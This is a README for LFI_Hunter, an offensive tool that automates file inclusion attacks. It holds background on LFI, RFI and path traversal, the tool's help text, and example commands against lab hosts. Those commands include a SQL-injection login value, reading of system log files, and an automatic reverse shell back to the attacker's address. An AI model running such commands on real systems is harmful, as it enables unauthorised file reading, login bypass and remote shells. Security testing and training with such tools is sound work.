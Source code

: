 # LFI_Hunter

##  what is LFT_Hunter ?
* LFT_Hunter tool help To atoumation file inclusion attack 
* read file and get the file in your local machine
* filter php base64 and auto decoded the data
* auto Injaction log file and get reverseshell "if can read log file"
* work with authentication login
* support not authentication as well 
#### LFI_Hunter modes 
   - Aggressive mode 
   - Burte Fource mode
   - read file mode
##  what is file inclusion vulnerability ?
* A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time. This issue is caused when an application builds a path to executable code using an attacker-controlled variable in a way that allows the attacker to control which file is executed at run time. A file include vulnerability is distinct from a generic directory traversal attack, in that directory traversal is a way of gaining unauthorized file system access, and a file inclusion vulnerability subverts how an application loads code for execution. Successful exploitation of a file inclusion vulnerability will result in remote code execution on the web server that runs the affected web application. An attacker can use remote code execution to create a web shell on the web server, which can be used for website defacement.
### Types of Inclusion
   #### A directory traversal (or path traversal) 
-  attack exploits insufficient security validation or sanitization of user-supplied file names, such that characters representing "traverse to parent directory" are passed through to the operating system's file system API. An affected application can be exploited to gain unauthorized access to the file system. 
 #### Remote file inclusion
   - Remote file inclusion (RFI) occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the          form of an HTTP or FTP URI as a user-supplied parameter to the web application.
 #### Local file inclusion
   - Local file inclusion (LFI)
 is similar to a remote file inclusion vulnerability except instead of including remote files, only local files i.e. files on the current server          can be included for execution. This issue can still lead to remote code execution by including a file that contains attacker-controlled data such as the web server's access logs. 
-----------------------------------------------------------------------------------

## More info :-
#### [file inclusion vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)
#### [Directory traversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack)
#### [File inclusion attacks](https://resources.infosecinstitute.com/topic/file-inclusion-attacks/)
-------------------------------------------------------------------------------------------

## How to use : 
* pip install import mechanize
* git clone https://www.github.com/jac11/LFI_Hunter.git
* cd LFI_Hunter
* chmod +x LFI_Hunter.py
* ./LFI_Hunter -h
``` .     .____ _       __  __               .                
 /     /     |       |   |  ,   . , __   _/_     ___  .___ 
 |     |__.  | .---' |___|  |   | |'  `.  |    .'   ` /   \
 |     |     |       |   |  |   | |    |  |    |----' |   '
 /---/ /     /       /   /  `._/| /    |  \__/ `.___, /    
              @jacstory                                             

usage: LFI_Hunter.py [-h] -UV VULNURL [--auth] [-F FILELIST] -C COOKIE [-B] [-R READ] [-UF USERFORM] [-PF PASSFORM] [-P PASSWORD] [-LU LOGINURL] [-U USER] [-A] [-S SHELL]

Usage: [OPtion] [arguments] [ -w ] [arguments]

options:
  -h, --help            show this help message and exit
  -UV VULNURL, --Vulnurl VULNURL
                        url Targst web
  --auth                auth mautrd web
  -F FILELIST, --filelist FILELIST
                        read fron lfi wordlsit
  -C COOKIE, --Cookie COOKIE
                        Login sesion Cookie
  -B, --base64          decode filter php base64
  -R READ, --read READ  use to read file on the traget machine
  -UF USERFORM, --UserForm USERFORM
                        add name of the HTML Form Login User
  -PF PASSFORM, --PassForm PASSFORM
                        add name of the HTML Form Login Passord
  -P PASSWORD, --password PASSWORD
                        use specific Passowrd
  -LU LOGINURL, --loginurl LOGINURL
                        add login url for auth motted
  -U USER, --user USER  use specific username
  -A, --aggress         use aggressiv mode
  -S SHELL, --shell SHELL
                        to connent reverseshell
```
-------------------------------------------------------------------------------------------------
### Command read mode :-

```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password  --read /var/log/auth -S 192.168.56.1 -UF username -PF password
```
 *  < -C / --cookies >   cookie file' add the cookie in to file and give the LFI_Hunter the path of the cookie file\
 *  < -VU / --Vulnurl >  the url of the file url "http://web.com/file="
 *  < --auth >           login the web from terminal
 *  < -LU / --loginurl>  add login url 
 *  < -U / --user >      add user name
 *  < -P / --password >  add the password 
 *  < -R / --read >      add the name of the to read from the website true the directory traversal 
 *  < -S / --shell >     connect auto reverse shell " if can read log files same like "/var/log/auth.log or /proc/self/environ"
 *  < -UF / --USERFORM > if the field of username have different name so to can post in username give the field name after -UF 
 *  < -PF/ --PASSFORM  > if the field of password have different name so to can post in password give the fieldname after -PF
------------------------------------------------------------
### Command Agreesiv mode  :-
```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password  -A
```
*  < -A / --aggress>  to user aggressive mode "for this mode LFI_Hunter use some of payload and comparison between length  response come from web site
the big length mine have date we want read it '
### Command brute force mode  :-
```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password
```
* brute force mode try payload untill can read file if can read it LFI_Hunter will break and give you information about the file

### Notes :
* all mode can run with authentication or not authentication as per your situation
* Cookies it required
* < -F / --filelist > LFI_Hunter have default wordlist to use for Brute force if you try your own list give -F and the path of your list
* < -B /--baes64 > To use php filtter decode64 'LFI_Hunter will decode the data to asscii auto 

### ScreenShot
 <img src = "images/2.gif" width=400> <img src = "images/7.gif" width=400>  
### Connect
* jac11devel@gmail.com
* thank you 
